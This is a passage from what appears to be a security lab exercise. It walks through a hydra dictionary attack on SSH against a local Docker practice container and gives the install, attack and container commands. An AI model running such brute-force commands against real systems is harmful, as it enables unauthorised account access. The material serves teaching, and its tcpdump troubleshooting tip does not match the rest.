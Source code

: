 2. **Prepare Password Dictionary:**
   - Obtain or create a password dictionary. You can find sample dictionaries online or create your own.

3. **Execute Dictionary Attack:**
   - Install `hydra` if it is not installed:
     ```bash
     sudo apt install hydra
     ```
   - Run `hydra` to perform the dictionary attack on the SSH service:
     ```bash
     hydra -l sylvain -P /path/to/password_dictionary.txt ssh://127.0.0.1:2222
     ```

4. **Submission:**
   - Once you find the correct password, paste it into your answer file.

**Resources:**
- `docker` for running the container.
- `hydra` for performing the dictionary attack.
- A password dictionary file.

**Example Usage:**
```bash
docker run -p 2222:22 -d -ti sylvainkalache/264-1
hydra -l sylvain -P /path/to/password_dictionary.txt ssh://127.0.0.1:2222
```

**Troubleshooting Tips:**
#### What to do if `tcpdump` isn't capturing traffic.
- If tcpdump is not capturing traffic, ensure you have proper permissions and check network interfaces.
#### Issues with Docker container setup and how to resolve them.
- For Docker issues, verify that Docker is running and the container is properly started.


